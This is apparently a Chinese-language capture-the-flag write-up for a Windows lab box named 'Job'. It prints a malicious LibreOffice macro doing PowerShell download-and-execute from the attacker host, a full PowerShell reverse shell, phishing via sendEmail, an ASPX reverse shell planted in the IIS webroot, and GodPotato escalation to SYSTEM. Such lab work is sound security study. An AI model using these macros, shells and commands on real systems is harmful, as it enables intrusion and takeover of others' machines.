

## Job
```
[★]$ nmap -sV -sC 10.129.234.73
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-03-04 00:26 CST
Nmap scan report for 10.129.234.73
Host is up (0.0091s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
25/tcp   open  smtp          hMailServer smtpd
| smtp-commands: JOB, SIZE 20480000, AUTH LOGIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Job.local
| http-methods: 
|_  Potentially risky methods: TRACE
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: JOB
|   NetBIOS_Domain_Name: JOB
|   NetBIOS_Computer_Name: JOB
|   DNS_Domain_Name: job
|   DNS_Computer_Name: job
|   Product_Version: 10.0.20348
|_  System_Time: 2026-03-04T06:26:39+00:00
|_ssl-date: 2026-03-04T06:27:19+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=job
| Not valid before: 2026-03-03T06:24:05
|_Not valid after:  2026-09-02T06:24:05
Service Info: Host: JOB; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -1s, deviation: 0s, median: -1s
| smb2-time: 
|   date: 2026-03-04T06:26:41
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

```
```
[★]$ echo '10.129.234.73 job.local' | sudo tee -a /etc/hosts
10.129.234.73 job.local
```
#### 打开浏览器的内容是：
#### We are looking for developers!我们正在寻找开发人员！
#### Please send your application to career@job.local! We recently switched to using open source products - please send your cv as a libre office document.
#### 请将您的申请发送至 career@job.local！我们最近改用开源产品了——请将您的简历以 libre office 文档的形式发送。
____________________________
#### 如果远程主机上的 LibreOffice 启用了宏，我们可以上传一个带有嵌入式恶意宏的文档，该宏可执行任意代码。
#### 让我们使用 Metasploit 框架的 openoffice_document_macro 模块来生成恶意文档。这会生成一个带有恶意宏的 .odt 文件，该宏会在远程主机上下载配置的负载并执行它。
```
[★]$ msfconsole
Metasploit tip: Set the current module's RHOSTS with database values using 
hosts -R or services -R
                                                  

 ______________________________________________________________________________
|                                                                              |
|                   METASPLOIT CYBER MISSILE COMMAND V5                        |
|______________________________________________________________________________|
      \                                  /                      /
       \     .                          /                      /            x
        \                              /                      /
         \                            /          +           /
          \            +             /                      /
           *                        /                      /
                                   /      .               /
    X                             /                      /            X
                                 /                     ###
                                /                     # % #
                               /                       ###
                      .       /
     .                       /      .            *           .
                            /
                           *
                  +                       *

                                       ^
####      __     __     __          #######         __     __     __        ####
####    /    \ /    \ /    \      ###########     /    \ /    \ /    \      ####
################################################################################
################################################################################
# WAVE 5 ######## SCORE 31337 ################################## HIGH FFFFFFFF #
################################################################################
                                                           https://metasploit.com


       =[ metasploit v6.4.71-dev                          ]
+ -- --=[ 2529 exploits - 1302 auxiliary - 431 post       ]
+ -- --=[ 1669 payloads - 49 encoders - 13 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

[msf](Jobs:0 Agents:0) >> use multi/misc/openoffice_document_macro
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/misc/openoffice_document_macro) >> set payload windows/x64/exec
payload => windows/x64/exec
[msf](Jobs:0 Agents:0) exploit(multi/misc/openoffice_document_macro) >> set cmd "powershell.exe -nop -w hidden -ep bypass -c IEX(New-Object Net.WebClient).DownloadString('http://10.10.15.132/shell.txt');"
cmd => powershell.exe -nop -w hidden -ep bypass -c IEX(New-Object Net.WebClient).DownloadString('http://10.10.15.132/shell.txt');
[msf](Jobs:0 Agents:0) exploit(multi/misc/openoffice_document_macro) >> set SRVHOST 10.10.15.132
SRVHOST => 10.10.15.132
[msf](Jobs:0 Agents:0) exploit(multi/misc/openoffice_document_macro) >> run
<SNIP>
[+] msf.odt stored at /home/syareya55/.msf4/local/msf.odt

```
#### Metasploit 有时会将本地网络适配器的 IP 地址嵌入到宏的下载 URL 中——即便 SRVHOST 已被设置为其他地址。因此，需要手动检查.odt 文件，以确认宏的命令和 URL。
```
[★]$ cd .msf4
[~/.msf4][★]$ ls
bootsnap_cache  data       local  logs  modules  store
config          histories  logos  loot  plugins
[~/.msf4][★]$ ls local/
msf.odt
[~/.msf4/local][★]$ open msf.odt
```
#### open the msf.odt file and naviagate to "Tools -> Macros -> Edit Macros"
#### 在msf.odt -> Standard -> Module1(双击它找到IP)
#### 将命令中的 URL 更新为相应的 IP 地址。
#### 把反弹shell.txt写进了msf.odt，然后把msf.odt当邮箱附件上传
```
REM  *****  BASIC  *****


    Sub OnLoad
      Dim os as string
      os = GetOS
      If os = "windows" OR os = "osx" OR os = "linux" Then
        Exploit
      end If
    End Sub

    Sub Exploit
      Shell("cmd.exe /C ""powershell.exe -nop -w hidden -c $K=new-object net.webclient;if([System.Net.WebProxy]::GetDefaultProxy().address -ne $null){$K.proxy=[Net.WebRequest]::GetSystemWebProxy();$K.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;};IEX ((new-object Net.WebClient).DownloadString('http://10.10.15.132:8011/shell.txt'));""")
    End Sub

    Function GetOS() as string
      select case getGUIType
        case 1:
          GetOS = "windows"
        case 3:
          GetOS = "osx"
        case 4:
          GetOS = "linux"
      end select
    End Function

    Function GetExtName() as string
      select case GetOS
        case "windows"
          GetFileName = "exe"
        case else
          GetFileName = "bin"
      end select
    End Function
```
#### 点击了Save 关掉了

#### 现在，让我们创建一个 PowerShell 反向 shell 文件。网上有很多相关的示例，但我们将使用由 SeTools 创建的这个示例。
https://amanutkhedkar.medium.com/powershell-reverse-shell-via-social-engineering-toolkit-591ca034a12d
```
[★]$ vi shell.txt
[★]$ cat shell.txt
function cleanup {
if ($client.Connected -eq $true) {$client.Close()}
if ($process.ExitCode -ne $null) {$process.Close()}
exit}
// Setup IPADDR
$address = '10.10.15.132'
// Setup PORT
$port = '443'
$client = New-Object system.net.sockets.tcpclient
$client.connect($address,$port)
$stream = $client.GetStream()
$networkbuffer = New-Object System.Byte[] $client.ReceiveBufferSize
$process = New-Object System.Diagnostics.Process
$process.StartInfo.FileName = 'C:\\windows\\system32\\cmd.exe'
$process.StartInfo.RedirectStandardInput = 1
$process.StartInfo.RedirectStandardOutput = 1
$process.StartInfo.UseShellExecute = 0
$process.Start()
$inputstream = $process.StandardInput
$outputstream = $process.StandardOutput
Start-Sleep 1
$encoding = new-object System.Text.AsciiEncoding
while($outputstream.Peek() -ne -1){$out += $encoding.GetString($outputstream.Read())}
$stream.Write($encoding.GetBytes($out),0,$out.Length)
$out = $null; $done = $false; $testing = 0;
while (-not $done) {
if ($client.Connected -ne $true) {cleanup}
$pos = 0; $i = 1
while (($i -gt 0) -and ($pos -lt $networkbuffer.Length)) {
$read = $stream.Read($networkbuffer,$pos,$networkbuffer.Length - $pos)
$pos+=$read; if ($pos -and ($networkbuffer[0..$($pos-1)] -contains 10)) {break}}
if ($pos -gt 0) {
$string = $encoding.GetString($networkbuffer,0,$pos)
$inputstream.write($string)
start-sleep 1
if ($process.ExitCode -ne $null) {cleanup}
else {
$out = $encoding.GetString($outputstream.Read())
while($outputstream.Peek() -ne -1){
$out += $encoding.GetString($outputstream.Read()); if ($out -eq $string) {$out = ''}}
$stream.Write($encoding.GetBytes($out),0,$out.length)
$out = $null
$string = $null}} else {cleanup}}
```
#### 开启侦听
```
[★]$ sudo nc -lvnp 443
listening on [any] 443 ...

[★]$ python3 -m http.server 8011
Serving HTTP on 0.0.0.0 port 8011 (http://0.0.0.0:8011/) ...
```
#### 发生payload邮件
```
[~/.msf4/local][★]$ git clone https://github.com/mogaal/sendemail.git
[~/.msf4/local][★]$ cd  sendemail
[~/.msf4/local/sendemail][★]$ ls
CHANGELOG  debian  README  README-BR.txt  sendEmail  sendEmail.pl  TODO
[~/.msf4/local/sendemail][★]$ chmod +x sendEmail
[~/.msf4/local/sendemail][★]$ sudo cp sendEmail /usr/bin/
[~/.msf4/local/sendemail][★]$ cd ..

[~/.msf4/local][★]$ ls
msf.odt  sendemail  shell.txt
[~/.msf4/local][★]$ [★]$ sendemail/sendEmail -s job.local -f "11 <11@job.htb>" -t career@job.local -o tls=no -m "hey pls check my cv" -a msf.odt
Mar 04 01:38:53 htb-w0jpg0btod sendEmail[120489]: Email was sent successfully!
```
#### 查看
```
[★]$ python3 -m http.server 8011
Serving HTTP on 0.0.0.0 port 8011 (http://0.0.0.0:8011/) ...
10.129.234.73 - - [04/Mar/2026 01:36:54] code 404, message File not found
10.129.234.73 - - [04/Mar/2026 01:36:54] "GET /WzKUI5A HTTP/1.1" 404 -
10.129.234.73 - - [04/Mar/2026 01:38:59] "GET /shell.txt HTTP/1.1" 200 -
```
```
[★]$ sudo nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.15.132] from (UNKNOWN) [10.129.234.73] 50173
Microsoft Windows [Version 10.0.20348.4052]
(c) Microsoft Corporation. All rights reserved.

C:\Program Files\LibreOffice\program>whoami
job\jack.black

C:\Program Files\LibreOffice\program>type  ..\..\..\Users\jack.black\Desktop\user.txt
```
### Lateral Movement 横向移动
#### 查看用户信息后，我们可以得知杰克·布莱克属于“职位/开发人员”这一组别。
```
C:\Program Files\LibreOffice\program>whoami /all

USER INFORMATION
----------------

User Name      SID                                          
============== =============================================
job\jack.black S-1-5-21-3629909232-404814612-4151782453-1000


GROUP INFORMATION
-----------------

Group Name                             Type             SID                                           Attributes                                        
====================================== ================ ============================================= ==================================================
Everyone                               Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
JOB\developers                         Alias            S-1-5-21-3629909232-404814612-4151782453-1001 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Desktop Users           Alias            S-1-5-32-555                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE               Well-known group S-1-5-4                                       Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                          Well-known group S-1-2-1                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization         Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account             Well-known group S-1-5-113                                     Mandatory group, Enabled by default, Enabled group
LOCAL                                  Well-known group S-1-2-0                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication       Well-known group S-1-5-64-10                                   Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level Label            S-1-16-8192                                                                                     


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State   
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```
#### 列出文件系统后发现，JOB/开发人员组对 C:\inetpub\wwwroot（IIS 网站根目录）具有写入权限。由于 IIS 通常以服务账户的形式运行，该账户可能拥有 SeImpersonate 权限，因此能够访问可写入的网站根目录是一个值得注意的发现。
#### icacls为Windows 查看目录权限的命令结果；C:\inetpub\wwwroot 是 IIS 的默认网站根目录
```
C:\Program Files\LibreOffice\program>cd ..\..\..\inetpub\wwwroot
C:\inetpub\wwwroot>icacls C:\inetpub\wwwroot
C:\inetpub\wwwroot JOB\developers:(OI)(CI)(F)
                   BUILTIN\IIS_IUSRS:(OI)(CI)(RX)
                   NT SERVICE\TrustedInstaller:(I)(F)
                   NT SERVICE\TrustedInstaller:(I)(OI)(CI)(IO)(F)
                   NT AUTHORITY\SYSTEM:(I)(F)
                   NT AUTHORITY\SYSTEM:(I)(OI)(CI)(IO)(F)
                   BUILTIN\Administrators:(I)(F)
                   BUILTIN\Administrators:(I)(OI)(CI)(IO)(F)
                   BUILTIN\Users:(I)(RX)
                   BUILTIN\Users:(I)(OI)(CI)(IO)(GR,GE)
                   CREATOR OWNER:(I)(OI)(CI)(IO)(F)

Successfully processed 1 files; Failed processing 0 files
```
| 标记 | 含义                      |
| -- | ----------------------- |
| OI | Object Inherit（对象继承）    |
| CI | Container Inherit（容器继承） |
| F  | Full control（完全控制）      |
| RX | Read & Execute          |
| GR | Generic Read            |
| GE | Generic Execute         |
#### 我们可以使用这个 ASPX 反向 shell，并将其与我们本地机器的相关 IP 地址以及监听端口进行更新。然后将这个反向 shell 文件下载到远程主机的 C:\inetpub\wwwroot 目录中。
https://github.com/borjmz/aspx-reverse-shell/blame/master/shell.aspx
```
[★]$ wget https://raw.githubusercontent.com/borjmz/aspx-reverse-shell/refs/heads/master/shell.aspx
[★]$ vi shell.aspx
 ★]$ cat shell.aspx
<%@ Page Language="C#" %>
<%@ Import Namespace="System.Runtime.InteropServices" %>
<%@ Import Namespace="System.Net" %>
<%@ Import Namespace="System.Net.Sockets" %>
<%@ Import Namespace="System.Security.Principal" %>
<%@ Import Namespace="System.Data.SqlClient" %>
<script runat="server">
//Original shell post: https://www.darknet.org.uk/2014/12/insomniashell-asp-net-reverse-shell-bind-shell/
//Download link: https://www.darknet.org.uk/content/files/InsomniaShell.zip
    
	protected void Page_Load(object sender, EventArgs e)
    {
	    String host = "10.10.15.132"; //CHANGE THIS
            int port = 1337; ////CHANGE THIS
                
        CallbackShell(host, port);
    }

[★]$ python3 -m http.server 8011 
```
#### shell.aspx 本质上是一个：用 ASP.NET 写的反弹 Shell（reverse shell）网页脚本
```
.aspx 是 ASP.NET 网页脚本文件，由 IIS 解析执行，类似于：
Linux：shell.php（给 Apache / Nginx 执行）
Windows + IIS：shell.aspx
```
#### 上传
```
C:\inetpub\wwwroot>curl http://10.10.15.132:8011/shell.aspx -o c:\inetpub\wwwroot\shell.aspx
C:\inetpub\wwwroot>dir
 Volume in drive C has no label.
 Volume Serial Number is A9B2-0C2A

 Directory of C:\inetpub\wwwroot

03/04/2026  07:59 AM    <DIR>          .
04/16/2025  11:21 AM    <DIR>          ..
11/10/2021  08:52 PM    <DIR>          aspnet_client
11/09/2021  09:24 PM    <DIR>          assets
11/09/2021  09:24 PM    <DIR>          css
11/10/2021  09:01 PM               298 hello.aspx
11/07/2021  01:05 PM             3,261 index.html
11/09/2021  09:24 PM    <DIR>          js
03/04/2026  07:59 AM            15,968 shell.aspx
               3 File(s)         19,527 bytes
               6 Dir(s)   5,396,140,032 bytes free
```
```
[★]$ nc -lvnp 1337
listening on [any] 1337 ...
```
#### shell.aspx 是“通过浏览器访问来执行”的 http://10.129.234.73/shell.aspx
```
[★]$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.15.132] from (UNKNOWN) [10.129.234.73] 50177
Spawn Shell...
Microsoft Windows [Version 10.0.20348.4052]
(c) Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
iis apppool\defaultapppool

```
### Privilege Escalation 权限提升
#### 正如所料，我们可以列出 iis apppool\defaultapppool 账户的权限，从而找到“SeImpersonatePrivilege”这一权限。
```
c:\windows\system32\inetsrv>whoami /all
whoami /all

USER INFORMATION
----------------

User Name                  SID                                                          
========================== =============================================================
iis apppool\defaultapppool S-1-5-82-3006700770-424185619-1745488364-794895919-4004696415


GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes                                        
==================================== ================ ============ ==================================================
Mandatory Label\High Mandatory Level Label            S-1-16-12288                                                   
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                 Well-known group S-1-5-6      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                        Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
BUILTIN\IIS_IUSRS                    Alias            S-1-5-32-568 Mandatory group, Enabled by default, Enabled group
LOCAL                                Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
                                     Unknown SID type S-1-5-82-0   Mandatory group, Enabled by default, Enabled group


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled

```
#### 拥有 SeImpersonate 权限会使系统面临基于令牌身份转换的权限提升技术（通常被称为“土豆”系列）的威胁。此权限允许一个进程以另一个用户的安全上下文进行身份转换，而此类技术会利用具有更高权限的进程来获取并重复使用其令牌，最终实现对系统级别的访问。我们可以使用 GodPotato 漏洞进行攻击。
https://github.com/BeichenDream/GodPotato
#### https://github.com/BeichenDream/GodPotato/releases在这里直接下载了GodPotato-NET2.exe
```
[★]$ ls
cacert.der  Documents  GodPotato-NET2.exe  my_data   Public     Videos
Desktop     Downloads  Music               Pictures  Templates
[★]$ python3 -m http.server 8011
```
#### 上传
```
c:\windows\system32\inetsrv>cd ..\..\..\ProgramData
cd ..\..\..\ProgramData

c:\ProgramData>curl http://10.10.15.132:8011/GodPotato-NET2.exe -o god.exe
curl http://10.10.15.132:8011/GodPotato-NET2.exe -o god.exe
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 57344  100 57344    0     0  1525k      0 --:--:-- --:--:-- --:--:-- 1555k

c:\ProgramData>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is A9B2-0C2A

 Directory of c:\ProgramData

10/13/2021  03:51 AM    <DIR>          Amazon
03/04/2026  07:39 AM    <DIR>          attachments
03/04/2026  08:24 AM            57,344 god.exe
04/16/2025  11:04 AM    <DIR>          Package Cache
09/05/2025  01:45 PM    <DIR>          Packages
11/09/2021  09:41 PM    <DIR>          regid.1991-06.com.microsoft
05/08/2021  08:20 AM    <DIR>          SoftwareDistribution
05/08/2021  09:36 AM    <DIR>          ssh
09/15/2021  03:10 PM    <DIR>          USOPrivate
05/08/2021  08:20 AM    <DIR>          USOShared
04/16/2025  10:47 AM    <DIR>          VMware
               1 File(s)         57,344 bytes
              10 Dir(s)   5,394,685,952 bytes free

c:\ProgramData>

```
#### 开启侦听
```
[★]$ sudo nc -lvnp 443
listening on [any] 443 ...
```
#### 在开头的shell.txt使用过一次：把反弹shell.txt写进了msf.odt，然后把msf.odt当邮箱附件上传；
```
c:\ProgramData>.\god.exe -cmd "powershell.exe -nop -w hidden -ep  bypass -c IEX(New-Object Net.WebClient).DownloadString('http://10.10.15.132:8011/shell.txt');"
.\god.exe -cmd "powershell.exe -nop -w hidden -ep  bypass -c IEX(New-Object Net.WebClient).DownloadString('http://10.10.15.132:8011/shell.txt');"
[*] CombaseModule: 0x140715197005824
[*] DispatchTable: 0x140715199592776
[*] UseProtseqFunction: 0x140715198886080
[*] UseProtseqFunctionParamCount: 6
[*] HookRPC
[*] Start PipeServer
[*] Trigger RPCSS
[*] CreateNamedPipe \\.\pipe\40d49958-2f40-4c9b-b22b-4a9fb266e7c0\pipe\epmapper
[*] DCOM obj GUID: 00000000-0000-0000-c000-000000000046
[*] DCOM obj IPID: 00005002-0cdc-ffff-f4e2-df028fa92290
[*] DCOM obj OXID: 0xfdc5783c8429b390
[*] DCOM obj OID: 0xbf710b1d4b69acf0
[*] DCOM obj Flags: 0x281
[*] DCOM obj PublicRefs: 0x0
[*] Marshal Object bytes len: 100
[*] UnMarshal Object
[*] Pipe Connected!
[*] CurrentUser: NT AUTHORITY\NETWORK SERVICE
[*] CurrentsImpersonationLevel: Impersonation
[*] Start Search System Token
[*] PID : 896 Token:0x740  User: NT AUTHORITY\SYSTEM ImpersonationLevel: Impersonation
[*] Find System Token : True
[*] UnmarshalObject: 0x80070776
[*] CurrentUser: NT AUTHORITY\SYSTEM
[*] process start with pid 1480
Exception calling "DownloadString" with "1" argument(s): "Unable to connect to the remote server"
At line:1 char:1
+ IEX(New-Object Net.WebClient).DownloadString('http://10.10.15.132:801 ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [], MethodInvocationException
    + FullyQualifiedErrorId : WebException
 

c:\ProgramData>    
```
#### 现在在刷新一下浏览器http://10.129.234.73/shell.aspx ，就可以反弹成功了，甚至都不用再次上传shell.txt
```
[★]$ sudo nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.15.132] from (UNKNOWN) [10.129.234.73] 50190
Microsoft Windows [Version 10.0.20348.4052]
(c) Microsoft Corporation. All rights reserved.

c:\ProgramData>whoami 
nt authority\system

c:\ProgramData>type ..\Users\Administrator\Desktop\root.txt
```
